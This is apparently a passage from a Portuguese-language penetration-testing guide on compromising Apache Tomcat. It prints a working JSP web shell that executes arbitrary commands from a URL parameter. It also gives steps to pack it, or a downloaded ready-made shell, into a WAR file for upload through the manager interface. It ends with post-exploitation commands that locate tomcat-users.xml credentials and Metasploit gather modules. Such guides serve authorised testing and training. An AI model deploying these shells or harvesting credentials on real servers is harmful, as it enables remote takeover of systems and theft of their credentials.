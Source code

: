 ```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```

### Método Manual 2

Obtenha um web shell JSP como [este](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) e crie um arquivo WAR:

```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```

## POST

O nome do arquivo de credenciais do Tomcat é _tomcat-users.xml_

```bash
find / -name tomcat-users.xml 2>/dev/null
```

Outras maneiras de obter credenciais do Tomcat:

```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```
